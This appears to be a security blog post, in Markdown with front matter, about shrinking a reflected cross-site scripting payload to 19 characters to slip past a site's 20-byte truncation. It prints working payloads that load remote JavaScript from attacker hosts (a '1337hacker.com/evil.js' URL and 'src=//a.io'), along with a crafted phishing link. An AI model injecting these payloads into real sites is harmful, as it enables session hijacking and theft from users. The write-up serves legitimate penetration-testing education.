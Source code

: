 ```yaml
---
title: "Minifying XSS"
description: How I bypassed Cross-Site Scripting sanitisation in fewer than 20 characters.
slug: minifying-xss
date: 2018-03-18T15:45:00+10:30
draft: true
categories:
- All
- Technology
- Application Security
tags:
- Penetration Testing
- Cross-Site Scripting
comments: true
ShowToc: true

cover:
  image: "hero.webp"
  alt: "A graphic of a HTML script tag fading into the background."
  relative: true
---
```



Cross-Site Scripting is still one of the most prevalent web application vulnerabilities, and has featured in each revision of the [OWASP Top 10](https://owasp.org/www-project-top-ten/) since the list was first published in 2010. Peaking at #2 in 2010, XSS was knocked off the podium for the first time in 2017, coming in at #7 on the list. This demotion may be due to the rise in popularity in Single Page Application (SPA) front-end frameworks such as React, Angular and Vue, which often include built-in sanitation to prevent these attacks.

However, where there is a will, there's a way.

While these frameworks do the heavy lifting to avoid these types of vulnerabilities, developers can ([and do](https://medium.com/node-security/the-most-common-xss-vulnerability-in-react-js-applications-2bdffbcc1fa0)) bypass the framework and manipulate the DOM directly, which can introduce XSS vulnerabilities. Sometimes the frameworks [get it wrong too](http://blog.portswigger.net/2017/09/abusing-javascript-frameworks-to-bypass.html), and people find ways to circumvent these protections. Not to mention that many applications on the web are using old frameworks or are hand-rolled and are riddled with dangerous DOM manipulation, which gets pentesters like me (and probably you) excited.

As we will see, websites can remain vulnerable to XSS attacks, even if the attack is detected. You just have to get a little crafty.

## An Ironic XSS Vulnerability

I recently came across a XSS vulnerability that got me thinking. It seemed like a run-of-the-mill [reflected XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting) vulnerability; a URL parameter was injected directly into the HTML in the page which could let a baddy make a link which they could send in a phishing email and do nasty things to the victim. Something like this:

```html
https://www.mysecuresite.com/paymentDetails.html?userid=<script>someMaliciousCode()</script>
```

The site was smart enough to recognise the attack, and rather helpfully displayed a small snippet of the code in an error page to the user. The first 20 bytes of the vulnerable URL parameter were loaded into the page, and the rest were truncated. The developers of the site must have realised that 20 bytes is far too few for any useful JavaScript, thus preventing an XSS attack. Surely…

## Wait… Bytes or Characters?

Before we go on, there's something I need to clarify which will become important later on. You may have noticed that most websites use simple characters in their URLs. Domain names are mostly letters from the Latin alphabet (such as [www.medium.com](https://www.medium.com/)), and there may be some numbers and other characters like slashes and ampersands. These characters are all from the [ASCII character set](https://www.asciitable.com/), which consists of 256 characters used commonly in English speaking countries. Originally, this is all that was supported. Somebody said "thou shall only use ASCII characters in domain names", and so we did that for a bit.

But the World Wide Web is just that, its for people of all nationalities and languages. Sure, we can fit all our Latin uppercase and lowercase letters in the ASCII character set, with a few spots left over for numbers and punctuation, but what about Hebrew? What about Arabic, or Chinese? Or variations of letters which give us piñatas and Über?

Technically, this causes a problem. You see, ASCII includes 256 characters because they can be nicely represented using a single byte, or 8 bits of 1s and 0s. But if we want to include all of these other letters and symbols, we're going to need a bigger character set, which means more bytes-per-character.

A [very](http://www.developerknowhow.com/1091/the-history-of-character-encoding), [very](https://danielmiessler.com/study/encoding/) long story short, this is where Unicode comes to the rescue. Through various iterations of the [Internationalised Domain Names](http://unicode.org/faq/idn.html) specification, we can now use a subset of the Unicode character set in our domain names! This monster of a character set includes 139 different scripts, plus a bunch of symbol sets which includes, wait for it. Emoji.

Long story short, we can use emoji and other symbols in our domain names, but we have to be wary that one character does not always equal one byte, which is important when you only have 20 bytes to play with.

## Let's Begin
So we have ourselves a challenge: can we inject malicious JavaScript in just 20 bytes? The irony of an XSS vulnerability in a page that tells the user they have been saved from an XSS attack is too much of a carrot not to chase.

### Baseline
*Length:* Unlimited

```html
<script>someMaliciousCode()</script>
```

In it's most simplest form, malicious JavaScript can be inserted into a page surrounded by <script> tags. This approach is fine where you don't have any restrictions on the size of the payload, but in our case, it's not going to cut it. A [simple keylogger](https://github.com/JohnHoder/Javascript-Keylogger/blob/master/keylogger.js) can weigh in at over 300 bytes, which is waaay over our 20 byte target. In fact, if we count the number of characters in the script tags alone, we're already at 17 bytes, giving us just three left to play with. I don't know what your JS skills are like, but I can't do a lot with three characters.

### Milestone 1: Loading a script
**Length:** 50 characters

```html
<script src='https://www.1337hacker.com/evil.js'>
```

This is a more common approach for exploiting XSS in the wild. Let's put our malicious JavaScript in a file and host it on our web server. We can then make a payload which simply loads our script and has it executed by the browser. This is nice because it lets us load effectively any JavaScript in just 50 characters. We can even build up a little library of JS payloads on our web server and reuse then in different attacks. However, in this case, we're still over our limit.

### Milestone 2: Shortening our domain
**Length:** 27 characters

```html
<script src='https://a.io'>
```

Shortening our domain name goes a long way to bringing us closer to our target. The shortest [Top-Level Domains](https://en.wikipedia.org/wiki/List_of_Internet_top-level_domains) (TLDs), such as .io (Indian Ocean) or .uk (United Kingdom) are three characters long when you include the prefixed period. All we need to do is register a single character domain and we have the shortest possible Fully Qualified Domain Name (FQDN)!

It turns out a bunch of other people had the same idea, and it's pretty hard to get you hands on such a short domain name. More on this later 😉 But for now, let's continue building our Proof-of-Concept.

We've also removed the name of the file containing our naughty little script. We can do this by configuring our web server to host our script at the root of the web server, similar to how [www.reddit.com](http://www.reddit.com/) gives you the front page of the internet.

### Milestone 3: Inheriting the Protocol
**Length:** 21 characters

```html
<script src='//a.io'>
```

So. Close. It turns out, if we remove the 'https:' from the beginning of the URL, the browser will default to using the [same protocol](https://stackoverflow.com/questions/550038/is-it-valid-to-replace-http-with-in-a-script-src-http) that was used to load the parent page. For example, if we send out a link like this:

```html
http://www.mysecuresite.com/paymentDetails.html?userid=<script src='//a.io'>
```

The script will be loaded over HTTP since www.mysecuresite.com is being accessed over HTTP.

Now, if I'm being honest, I thought I was done here. Just one character shy of the target, and I thought I had reached the limit. A little disheartened, I contacted some friends and presented them with the challenge. Was there something I was missing that could get us below our 20 byte payload?

### Milestone 4: Removing quotation marks
**Length:** 19 characters

```html
<script src=//a.io>
```

As it turns out, there was! The quotation marks surrounding the URL are superfluous; the script loads just fine without them! And with that, we had come up with a Proof-of-Concept payload which would load arbitrary JavaScript into the user's browser and let us hijack their session. Pretty cool, huh!

### Hacking with Emoji

The PoC payload was enough to demonstrate that somebody with a short domain name could exploit the XSS vulnerability, which was enough to convince the developers to fix it. But where's the fun in that?

Remember that spiel about Internationalised Domain Names supporting Emoji? Well at this point, I jumped onto [https://i❤.ws/](https://xn--i-7iq.ws/marketplace/1?filter=1char) to see what the going rate was for a single emoji domain, and boy was I in for a surprise. A domain like [🤣.ws](https://xn--i-7iq.ws/aftermarket/xn--cq9h.ws) could set you back USD$50k! I looked in my wallet and remembered I'm not made of cash, so I settled for something a little less lucrative.

But, I can now say I'm the proud owner of ⚿.ws. The question remains, can I use this to exploit our XSS vulnerability? Sadly, no. The ⚿ character (squared key, for anybody whose browser doesn't support the emoji) is three bytes in size, which brings our payload to 21 bytes.

So close, yet so far…

---

So there it is, the shortest XSS payload I could come up with (with a little help) was 19 bytes with the right domain, or 21 bytes with my emoji domain. If you know of any other tricks to reduce the size, let me us know in the comments below!

---

**Thanks for reading!**  
If you enjoyed this post, follow on [Twitter](https://www.twitter.com/@JakobTheDev) or [Mastodon](https://infosec.exchange/@JakobTheDev) for more content. If you have any feedback or suggestions, leave it in the comments below and I'll do my best to get back to you.